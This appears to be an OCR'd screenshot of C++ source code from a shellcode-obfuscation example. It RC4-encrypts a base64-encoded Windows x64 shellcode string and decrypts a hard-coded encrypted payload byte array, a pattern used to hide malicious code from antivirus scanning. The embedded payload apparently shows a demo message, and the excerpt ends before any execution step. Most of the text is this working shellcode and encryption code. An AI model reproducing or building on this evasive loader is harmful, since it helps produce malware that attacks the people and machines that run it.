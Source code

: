 ```cpp
  // printf("-------key-----------\n");
  // for(i = 0; i < keyL; i++) {
  //   printf("%02hhx\t", key[i]);
  // }
  // printf("\n\n");

  for (i = 0; i < messageL; i++) {
    ciphertext[i] = plaintext[i] ^ keystream[i];
  }

  // printf("-------ciphertext-----------\n");
  // for(i = 0; i < messageL; i++) {
  //   printf("%02hhx\t", ciphertext[i]);
  // }
  // printf("\n\n");
  return ciphertext;
}

int main(int argc, char* argv[]) {
  unsigned char* plaintext = (unsigned char*)"/EiB5PD////"
  "o0AAAAEFRQVBSUVZIMdJlSItSYD5Ii1IYPkiLUiA"
  "+SItyUD5ID7dKSk0xyUgxwKw8YXwCLCBBwckNQQHB4u1SQVE+SItSID6LQjxIAdA"
  "+i4CIAAAASIXAdG9IAdBQPotIGD5Ei0AgSQHQ41xI/8k"
  "+QYs0iEgB1k0xyUgxwKxBwckNQQHBOOB18T5MA0wkCEU50XXWWD5Ei0AkSQHQZj5"
  "BiwxIPkSLQBxJAdA+QYsEiEgB0EFYQVheWVpBWEFZQVpIg+wgQVL/4FhBWVo+SIsS6Un///"
  "9dScfBAAAAAD5IjZX+AAAAPkyNhQkBAABIMclBukWDVgf/1UgxyUG68LWiVv/"
  "VTWVvdy1tZW93IQA9Xi4uXj0A";
  unsigned char* key = (unsigned char*)"key";
  unsigned char* ciphertext = (unsigned char *)malloc(sizeof(unsigned char) *
  strlen((const char*)plaintext));
  RC4(plaintext, ciphertext, key, strlen((const char*)key), strlen((const 
  char*)plaintext));

  unsigned char payload[] = 
  "\x24\x29\x5d\xaf\x11\xdf\x3f\x65\x67\x64\x27\x14\x26\x1c\x53\xbc"
  "\xce\x31\xab\x34\xfa\xb7\xa1\xac\x63\xa5\xf2\xf4\x74\x88\x31\xf2"
  "\x47\x74\xc2\xdd\xf0\xcb\x8f\xf5\x5a\xe6\xb6\xe8\x73\x16\x4f\xcf"
  "\xaf\x54\x79\x0c\x3f\x90\x7d\xfd\xa6\x2b\x0d\x71\xc7\xb0\xb6\x40"
  "\xf0\x12\xdc\xa8\xc5\x20\xb5\xc0\x45\x25\x03\x30\x03\x23\xd9\xc8"
  "\x82\xbc\x7d\x1a\xfe\xcc\x66\x32\x2e\xaa\x40\xc9\x61\xc2\x72\x77"
  "\x70\xba\xc7\xd2\x3b\xea\x3d\x6f\x07\xf5\xbc\xae\x1d\x32\xc8\xf3"
  "\x6f\x1c\x32\xe0\xd7\x65\x20\x72\xec\x21\xfe\xa9\xc5\x72\x12\xa6"
  "\x06\x38\x01\x3e\x16\xe8\x09\x68\x87\xc8\x7f\x0b\x44\xcf\xba\x9c"
  "\xbe\x7c\xfc\x3b\x96\x3f\x90\xdc\x96\xe3\x8c\x3f\x3a\xe7\x57\xa4"
  "\xcd\xa5\x42\x4b\x55\x2e\x5b\x89\xf6\xd9\x80\x55\xf8\xbc\x0b\x4e"
  "\x66\x96\x01\xce\xc8\x97\x6a\xbd\x31\x6d\xfd\x53\xae\xcd\x98\xc9"
  "\x28\x73\x60\x4a\x82\xe1\x2e\xb7\x77\xc5\x97\xbd\x3d\xed\xc1\x9c"
  "\xeb\xc6\x06\x3a\x44\xf5\xf8\x7d\x79\x30\x42\xea\xbd\x4d\xbf\xe5"
  "\x18\xcb\xa5\x78\x6f\xb7\xf9\x65\xd7\x36\xbd\x92\x76\xf0\xda\x60"
  "\x97\xac\xd1\xcf\x98\xbf\xd7\x66\xd1\x4b\x34\x96\xfb\xe9\xf8\xac"
  "\x59\xe9\x0e\x81\x81\xe4\x7f\xcf\xd6\x7f\x16\x48\xe1\x94\x0c\x7c"
  "\x8e\xa0\x85\xa1\x81\x0f\xc3\x5f\xfb\xfd\x05\x7b\x69\x5b\xb4\x78"
  "\x4e\x1e\x10\x1b\x29\xc4\xa9\x1d\xa6\xa3\xe6\xa9\xb0\xdd\xc5\x35"
  "\x3b\x0e\xdb\xca\x82\x64\x1a\x19\x53\xdd\x65\xe7\xd3\x5e\x2e\x7d"
  "\x8c\xfa\x80\x52\x6c\xa0\xad\x9a\x8f\xb6\xdc\x43\x8b\x8e\x5f\xac"
  "\x46\xb5\x90\x8a\x16\x3d\x4d\xb9\x17\xc6\x6d\x87\x13\xad\xa3\x78"
  "\x68\x7c\xbc\xcf\x1b\x26\xa6\xc3\x37\x10\xfc\xca\xc4\x78\xa6\xe1"
  "\x7e\x88\x53\xcc\x2e\x38\xe3\x15\xd0\x2b\xe9\x0f";
  unsigned char* encoded = (unsigned char *)payload;
  unsigned char* decoded = (unsigned char *)malloc(sizeof(unsigned char) * 
  (sizeof(payload) - 1));
  RC4(encoded, decoded, key, strlen((const char*)key), sizeof(payload) - 1);
  // printf("%s\n", decoded);
```